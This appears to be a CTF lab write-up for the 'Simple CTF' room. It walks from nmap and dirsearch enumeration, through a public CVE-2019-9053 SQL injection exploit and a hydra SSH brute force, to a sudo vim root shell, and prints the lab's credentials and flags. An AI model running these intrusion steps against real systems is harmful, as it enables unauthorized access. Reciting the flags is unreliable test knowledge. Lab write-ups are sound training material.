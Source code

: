 # Simple CTF

**Room:** Simple CTF  
**Author:** Luis (Anub1t)  
**Date:** 2025-09-12

---

## Question 1

**Question:** How many services are running under port 1000?

We can solve this using an Nmap scan:

```bash
nmap -p1-1000 [target_IP]
```

**Result / Answer:** There are **2 services** running below TCP port 1000.

---

## Question 2

**Question:** What is running on the higher port?

We can solve this by running a full port scan:

```bash
nmap -T4 -p- [target_IP]
```

This lets us see which service runs on the highest port on the vulnerable machine.

**Result / Answer:** The service running on the highest port is **SSH**.

---

## Question 3

**Question:** What's the CVE you're using against the application?

To answer this we need to identify the web application and its version. First, searching the target IP on a search engine returned no useful information. Instead, we used a directory discovery tool such as `dirsearch` to find potential directories:

```bash
dirsearch -u [target_IP]
```

We found a directory called `/simple`. Visiting `http://[target_IP]/simple/` we discovered, in the page footer, the web application and its version: **CMS Made Simple version 2.2.8**.

Searching for vulnerabilities for that application and version (for example on the NIST database) revealed the CVE: **CVE-2019-9053**.

---

## Question 4

**Question:** To what kind of vulnerability is the application vulnerable?

On the same page where the CVE was found, the vulnerability type is listed: **SQL Injection**.

**Answer / Flag:** `sqli`

---

## Question 5

**Question:** What's the password?

We must exploit the vulnerability first. I used a public exploit from GitHub:

```
https://github.com/BjarneVerschorre/CVE-2019-9053
```

Before running the exploit, install the dependencies as indicated by the author:

```bash
pip3 install httpx
```

Then run the exploit:

```bash
python3 exploit.py -u "http://[target_IP]/simple/"
```

The exploit returns a username `mitch` and a password in hash form (not directly readable). Using the discovered username, we performed a controlled password attack against SSH with `hydra`:

```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 -t 4 -f -V ssh://[target_IP]
```

**Result / Answer:** The password found was **`secret`**.

---

## Question 6

**Question:** Where can you login with the details obtained?

**Answer:** You can log in to the **SSH** service using the obtained credentials.

---

## Question 7

**Question:** What's the user flag?

Login to SSH with the obtained credentials:

```bash
ssh -p 2222 mitch@[target_IP]
# password: secret
```

After a successful login, list files with `ls`. There is a `user.txt` file. Viewing it:

```bash
cat user.txt
```

**Result / User flag:** `G00d j0b, keep up!`

---

## Question 8

**Question:** Is there any other user in the home directory? What's its name?

From the SSH session:

```bash
cd /home
ls
```

**Result / Answer:** Besides the known user, there is another user named **`sunbath`**.

---

## Question 9

**Question:** What can you leverage to spawn a privileged shell?

Check for elevated permissions with:

```bash
sudo -l -l
```

The output shows that the user `mitch` can run `/usr/bin/vim` as `root` without a password. This is the vector we can leverage to spawn a privileged shell.

**Answer:** The allowed `sudo` command `/usr/bin/vim` (NOPASSWD) can be leveraged to obtain a root shell.

---

## Question 10

**Question:** What's the root flag?

From the SSH session, obtain a root shell using `vim`:

```bash
sudo /usr/bin/vim -c ':!bash' -c ':q'
```

This launches a root shell. Navigate to the root directory (if you start in `/home`, go up one level and then into `/root`):

```bash
cd ..
cd root
ls
cat root.txt
```

**Result / Root flag:** `W3ll d0n3. You made it!`

---

## Notes

This writeup follows the classic CTF flow: enumerate services, find web application version, locate a public CVE and exploit it to obtain credentials, access SSH on a non-standard port (2222), and perform post-exploitation checks (`sudo -l`) to find a privilege escalation vector (vim as NOPASSWD), which was used to obtain the root flag.

---

## Disclaimer
> ⚠️ This writeup is for educational purposes only and must be used in authorized environments (labs / CTFs). Do not apply these techniques against systems without explicit permission.

---

